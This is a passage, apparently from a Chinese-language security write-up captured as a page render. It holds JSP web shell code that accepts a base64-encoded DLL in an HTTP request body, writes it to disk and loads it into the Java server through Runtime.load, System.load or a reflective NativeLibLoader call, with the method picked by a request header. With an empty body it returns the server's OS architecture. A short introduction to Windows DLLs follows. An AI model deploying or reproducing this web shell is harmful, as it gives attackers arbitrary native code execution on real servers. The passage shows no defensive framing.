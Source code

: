 ```java
private void SystemLoad(String path){
    System.load(path);
}

// 有些JDK版本没有这个对象，因此采用反射加载进行运行
private void NativeLoad(String path) throws Exception{
    Class Native = Class.forName("com.sun.glass.utils.NativeLibLoader");
    if(Native != null){
        java.lang.reflect.Method Load = Native.getDeclaredMethod("loadLibrary",String.class);
        Load.invoke(path);
    }
}
</jsp:declaration>

<jsp:scriptlet>
    // 加载方式
    String method = request.getHeader("WWW-Authenticate");

    try{
        ServletInputStream stream = request.getInputStream();
      if (stream.available() == 0){
          out.println(System.getProperty("os.arch"));
          return;
      }
      String file =  UploadBase64DLL(stream);
      // 按照Header头选择加载方式
      switch (method){
          case "1":
              RuntimeLoad(file);
              break;
          case "2":
              SystemLoad(file);
              break;
          case "3":
              NativeLoad(file);
              break;
          default:
              RuntimeLoad(file);
              break;
      }
    }catch (Exception e){
        System.out.println(e.toString());
    }
</jsp:scriptlet>
```

## 0x04 Windows 动态链接库

DLL(Dynamic Link Library)文件为动态链接库文件，又称“应用程序拓展”，是软件文件类型。 在Windows中，许多应用程序并不是一个完整的可执行文件，它们被分割成一些相对独立的动态链接库，即DLL文件，放置于系统中。在Windows平台下，我们使用的应用程序中的功能其实大多都很相似，窗口调用窗口的模块，分配内存调用内存管理的模块，文件操作调用IO模块，这些模块在Windows里的具体表现就是DLL文件。
